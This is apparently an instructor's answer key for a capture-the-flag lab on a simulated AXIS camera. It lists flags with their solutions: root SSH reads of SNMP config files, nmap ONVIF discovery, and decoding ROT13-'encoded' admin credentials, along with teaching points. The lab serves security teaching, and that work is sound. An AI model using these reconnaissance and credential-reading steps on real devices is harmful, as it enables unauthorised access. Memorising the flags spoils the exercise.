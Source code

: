 ```bash
# Check via SSH for configuration
ssh root@192.168.1.132
cat /etc/snmp/snmpd.conf | grep -E "community|sysdescr"
```

**Output:**
```
rocommunity public default
rwcommunity private 192.168.1.0/24
sysdescr AXIS Camera FLAG{THEODEN40558954}
```

**Teaching Points:**
- Default SNMP communities (public/private) are widely known
- SNMP can reveal extensive system information
- SNMPv2c transmits community strings in cleartext

**Common Student Mistakes:**
- Using wrong SNMP version (-v1 instead of -v2c)
- Not specifying MIB or using wrong OID
- Forgetting that SNMP typically uses UDP port 161

---

## MEDIUM FLAGS (13 flags)

### Flag #2: Encoded ONVIF Credentials
**Location**: `/var/config/onvif_auth`  
**Flag**: `FLAG{ARAGORN79305394}`

```bash
# First, discover ONVIF service
nmap -sU -p3702 --script onvif-discover 192.168.1.132
```

**Output:**
```
PORT     STATE SERVICE
3702/udp open  ws-discovery
| onvif-discover: 
|   Device Type: Network Video Transmitter
|   Model: AXIS P1435-LE
|   Firmware: 10.5.0
|_  ONVIF Version: 2.0
```

```bash
# Access the configuration file
ssh root@192.168.1.132
cat /var/config/onvif_auth
```

**Output:**
```
# ONVIF Authentication Configuration
# Encoded for security (ROT13)
username=nqzva
password=nqzva123
auth_data=SYNT{NENTBEA79305394}
last_updated=2025-01-27
```
